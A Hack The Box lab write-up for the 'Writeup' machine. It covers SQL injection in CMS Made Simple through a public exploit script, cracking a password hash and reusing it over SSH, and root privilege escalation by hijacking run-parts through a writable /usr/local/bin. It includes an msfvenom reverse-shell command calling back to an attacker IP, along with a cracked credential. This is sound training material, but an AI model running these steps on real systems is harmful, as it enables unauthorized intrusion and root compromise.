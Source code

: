 ```yaml
---
layout: single
title: Writeup - Hack The Box
excerpt: "The writeup begins with a straightforward unauthenticated vulnerability in CMS Made Simple, which I exploit to retrieve the database credentials. After cracking the user's hash, I discover they reused the same password for SSH, allowing me to access the machine. The privilege escalation is particularly interesting: I have write permissions on /usr/local, enabling me to place a binary payload that gets executed by run-parts when I log in via SSH, as it is invoked without the full path."
date: 2024-11-12
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-writeup/writeup_logo.png
  teaser_home_page: true
  icon: /blog/assets/images/hackthebox.webp
categories:
  - WriteUp
#tags:
 # - linux
  #- sqli
  #- cms
---
```


![](/blog/assets/images/htb-writeup-writeup/writeup_logo.png)

Writeup starts off easy with an unauthenticated vulnerability in CMS Made Simple that I exploit to dump the database credentials. After cracking the user hash, I can log in to the machine because the user re-used the same password for SSH. The priv esc is pretty nice: I have write access to `/usr/local` and I can write a binary payload in there that gets executed by run-parts when I SSH in because it's called without the full path. Another nice box by jkr.

## Summary

- Unauthenticated SQL injection in CMS Made Simple gives us the password hash which we can crack
- The CMS user / password can be used to SSH in to the server (password re-use)
- The `/usr/local/bin` directory is writable by low-priv user and we can hijack `run-parts` which is run by root when SSHing in (path abuse)

## Tools/Blogs used

- CMS Made Simple < 2.2.10 - SQL Injection (exploits/php/webapps/46635.py)

### Portscan

```
# nmap -p- 10.10.10.138
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-08 22:30 EDT
Nmap scan report for writeup.htb (10.10.10.138)
Host is up (0.018s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 105.16 seconds
```

### Website enumeration

The website contains information about fail2ban or a similar kind of script running to prevent 40x errors. This means that if we try to dirbust the site we'll probably get banned.

![](../assets/images/htb-writeup-writeup/1.png)

So I checked `robots.txt` and found the following:

```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: *
Disallow: /writeup/
```

Checking out `http://10.10.10.138/writeup/` I see it's some kind of barebone webpage.

![](../assets/images/htb-writeup-writeup/2.png)

The links just display different writeups for previous HTB boxes. I couldn't trigger any LFI, RFI or SQL injection from `/writeup/index.php?page=`

There's a hint at the bottom of the page that it's *NOT* made with vim.

![](../assets/images/htb-writeup-writeup/3.png)

Checking out the source code, I can see it's made with CMS Made Simple.

![](../assets/images/htb-writeup-writeup/4.png)

### SQL injection in CMS

Checking out searchsploit, I see a whole bunch of exploits for that CMS.

![](../assets/images/htb-writeup-writeup/5.png)

The one I highlighted above is an Unauthenticated SQL Injection that allows an attacker to dump the username and password hash from the database. To exploit it, we just need to pass the URI of the CMS and the wordlist we'll use to crack the password hash:

`python exploit.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt`

![](../assets/images/htb-writeup-writeup/6.png)

We just found the password for user `jkr`: `raykayjay9`

The CMS administration webpage at `http://10.10.10.138/writeup/admin` is protected by an additional HTTP basic web authentication. This is not part of the standard CMS deployment so it was probably added by the box creator. I'm not able to authenticate using the credentials I found in the database and if I try to bruteforce it I get locked out by fail2ban.

However the credentials do work with SSH and I'm able to get a shell and the first flag:

```
# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ cat user.txt
d4e493...
```

### Privesc

My user is part of the following groups: `uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)`

I ran through the standard Linux enumeration, checking permissions on files and directories, and noticed that I have write access to folders inside `/usr/local`:

```
jkr@writeup:~$ ls -l /usr/local
total 56
drwx-wsr-x 2 root staff 20480 Apr 19 04:11 bin
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x 4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx 1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x 7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 src
```

However, I can't see the contents of `/usr/local/bin` and `/usr/local/sbin`. This is not a standard Linux distro configuration so the box creator probably changed the permissions on purpose so HTB players can't piggy-back on other players binaries.

I copied `pspy` to the box and found a cronjob running every minute:

![](../assets/images/htb-writeup-writeup/7.png)

I don't have access to the content of the script but it's safe to assume that it deletes files or folders somewhere on the system. I created a test file inside `/usr/local/bin` to see if the script would delete it. After a minute, I saw that the file was removed:

```
jkr@writeup:/usr/local/bin$ echo test > test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
cat: test: No such file or directory
```

Because we can write files into `/usr/local/bin` and `/usr/local/sbin`, we can potentially get RCE since the default path for users is the following:

```
jkr@writeup:/usr/local/bin$ cat /etc/profile
# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

if [ "`id -u`" -eq 0 ]; then
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
else
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
```

`/usr/local/bin` and `/usr/local/sbin` are preferred over the other paths so it's clear what we need to do here:

 - Find the filename of something that is executed by root (that filename must be executed without the full path)
 - Find the trigger for executing that command as root

I thought I could use `grep` or `iptables` but that didn't work. I think it's because the programs are executed by fail2ban which is started with a modified path as per `/etc/init.d/fail2ban`:

```
PATH=/usr/sbin:/usr/bin:/sbin:/bin
```

I also noticed that the `run-parts` program is executed whenever I SSH in:

![](../assets/images/htb-writeup-writeup/8.png)

> run-parts runs all the executable files named within constraints described below, found in directory  directory. Other files and directories are silently ignored.

I can't make run-parts run arbitrary binaries since I can't write `/etc/update-motd.d/` but because the program is run without the full path I can write my own `run-parts` binary to `/usr/local/bin` or `/usr/local/sbin` and it will be executed instead of the real one because the directory is located in front in the PATH variable definition.

For the malicious binary, I use a standard linux reverse shell payload generated with Metasploit:
```
# msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=10.10.14.7 LPORT=4444
chmod +x ./shell
```

I just need to upload the file to `/usr/local/bin/run-parts` and SSH in to trigger a callback and get root privileges.

![](../assets/images/htb-writeup-writeup/9.png)

